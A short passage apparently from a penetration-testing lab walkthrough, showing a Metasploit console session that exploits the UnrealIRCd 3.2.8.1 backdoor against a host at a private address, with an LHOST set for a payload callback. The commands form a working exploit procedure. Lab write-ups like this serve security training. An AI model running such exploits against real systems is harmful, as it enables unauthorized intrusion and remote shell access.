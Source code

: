 ![](../images/connecting_to_irc_service_using_irssi_client_2.png)
##### Exploitation using ircd3281_backdoor
```
msfconsole -q
msf > search ircd3281_backdoor
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.1.103
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 10
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.1.101
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
```
![](../images/exploiting_irc_using_backdoor_1.png)
